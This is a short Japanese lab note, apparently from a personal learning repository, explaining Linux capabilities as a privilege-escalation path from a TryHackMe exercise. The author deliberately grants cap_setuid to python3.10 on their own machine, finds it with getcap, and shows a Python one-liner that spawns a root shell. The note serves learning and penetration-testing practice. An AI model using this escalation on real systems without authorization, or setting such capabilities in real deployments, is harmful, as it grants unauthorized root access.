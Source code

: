 ## Capabilities
[参考記事](https://infosecwriteups.com/how-capabilities-actually-work-exploitation-privilege-escalation-536afee917ad)

root以外の特権概念．詳細な権限付与を可能にすることで最小限の権限をプロセスに許可できるようになる．
THMでは[Task8](https://tryhackme.com/room/linprivesc?source=post_page-----536afee917ad--------------------------------)に権限昇格問題としてcapabilityを扱っている．
色んな権限の種類があるので、１番わかりやすい`cap_setuid`が付与されているシナリオを考える．

ペネトレ系の問題は設定の不備の列挙が基本になるはず．capabilityの場合`getcap -r / 2>/dev/null`でできる．(単純に全探索してるので`/proc`まわりのファイルのcapabilityを調べるとfailしてエラーまみれになる、そのため`2>/dev/null`としている)

capabilityを指定のファイルに付与する場合、３要素から指定が可能である．[man](https://man.archlinux.org/man/capabilities.7#File_capabilities)に詳細が記載されている．ここではコマンドのオプション指定に関わるもののみ簡単にまとめる．
* Permitted: 権限許可
* Inheritable: 子プロセスへの権限継承
* Effective: 権限適用

ドキュメントのニュアンスを拾えなくて雑な説明になるが、`pe`を与えることで内部の`execve`が呼ばれたときの検証を通ることができるようだ．

デフォルトのUbuntuに設定不備は存在しないのでシナリオ通りの設定不備をあえて再現させる．
```
sudo setcap cap_setuid=+ep /usr/bin/python3.10
```

```
suke@klmbox:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/snap/core22/858/usr/bin/ping cap_net_raw=ep
/snap/core22/864/usr/bin/ping cap_net_raw=ep
/snap/core20/1974/usr/bin/ping cap_net_raw=ep
/snap/core20/2015/usr/bin/ping cap_net_raw=ep
```

pythonでルートシェルの立ち上げが可能になる．(`cap_setuid=ep`なので)

```
suke@klmbox:~$ /usr/bin/python3.10 -c "import os; os.setuid(0); os.system('/bin/bash')"
root@klmbox:~# whoami
root
root@klmbox:~#
```
`SUID`と違った権限(UIDの操作権限)であるため、所有者がrootの`SUID`が許可されたファイル列挙からはこれが見つからないことに注目すべきである．